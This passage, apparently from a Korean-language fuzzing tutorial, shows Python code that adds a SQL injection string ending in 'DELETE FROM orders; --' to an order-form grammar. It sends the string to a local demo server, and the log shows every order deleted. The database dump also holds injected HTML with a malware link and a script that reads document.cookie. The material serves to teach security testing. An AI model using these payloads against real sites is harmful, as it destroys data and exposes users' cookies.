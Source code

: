 ```python
ORDER_GRAMMAR_WITH_SQL_INJECTION = extend_grammar(ORDER_GRAMMAR, {
    "<name>": [cgi_encode("Jane', 'x', 'x', 'x'); DELETE FROM orders; --")],
})
```

```python
sql_injection_fuzzer = GrammarFuzzer(ORDER_GRAMMAR_WITH_SQL_INJECTION)
order_with_injected_sql = sql_injection_fuzzer.fuzz()
order_with_injected_sql
```

```python
"/order?item=drill&name=Jane',+'x',+'x',+'x')%3b+DELETE+FROM+orders%3b+--&email=j.doe%40example.com&city=New+York&zip=14083"
```

현재 주문은 다음과 같습니다.

```python
print(db.execute("SELECT * FROM orders").fetchall())
```

```python
[('tshirt', 'Jane Doe', 'doe@example.com', 'Seattle', '98104'), ('lockset', 'Jane Doe', 'j_smith@example.com', 'Seattle', '16631'), ('drill', 'Jane Doe', 'j.doe@example.com', '', '45732'), ('drill', 'Jane Doe', 'j,doe@example.com', 'Seattle', '45732'), ('drill', ' ', '5F @p   a ', 'cdb', '3230'), ('drill', ' m', '@@0', 'd', '9'), ('lockset', '  ', 'c@d', '_', '6'), ('lockset', ' ', 'd@_-', '2  0', '1040'), ('tshirt', 'Kb', 'm@ ', 'zy ', '13'), ('lockset', 'd', 'U @t', ' ', '4'), ('tshirt', '_ 2', '1  @ ', ' ', '30'), ('tshirt', ' ', 'a-@ ', ' W', '2'), ('lockset', 'V', '  @aUeeD', ' ', '01'), ('tshirt', 'oc', '  @ ', 'a', '25'), ('drill', '55', '3>@@5', 'L', '0'), ('tshirt', ' ', 'b t2@ ', 'E9', '54'), ('drill', 'R-', 'e@?', ' ', '5'), ('drill', '\n    Jane Doe<p>\n    <strong><a href="www.lots.of.malware">Click here for cute cat pictures!</a></strong>\n    </p>\n    ', 'j_smith@example.com', 'Seattle', '02805'), ('lockset', 'Jane Doe<script>document.title = document.cookie.substring(0, 10);</script>', 'j.doe@example.com', 'Seattle', '34506')]
```

이제 우리의 URL을 SQL injection으로 서버에 보내봅시다. 로그에서 "악성" SQL 명령이 위에서 스케치한 대로 생성되고 실행되는 것을 볼 수 있습니다.

```python
contents = webbrowser(urljoin(httpd_url, order_with_injected_sql))
```

```python
127.0.0.1 - - [18/May/2022 12:46:29] INSERT INTO orders VALUES ('drill', 'Jane', 'x', 'x', 'x'); DELETE FROM orders; --', 'j.doe@example.com', 'New York', '14083')
127.0.0.1 - - [18/May/2022 12:46:29] "GET /order?item=drill&name=Jane',+'x',+'x',+'x')%3B+DELETE+FROM+orders%3B+--&email=j.doe%40example.com&city=New+York&zip=14083 HTTP/1.1" 200 -
```

이제 모든 주문이 사라졌습니다.

```python
print(db.execute("SELECT * FROM orders").fetchall())

>>> []
```

이 효과는 매우 유명한 XKCD 만화에서도 잘 나타납니다.
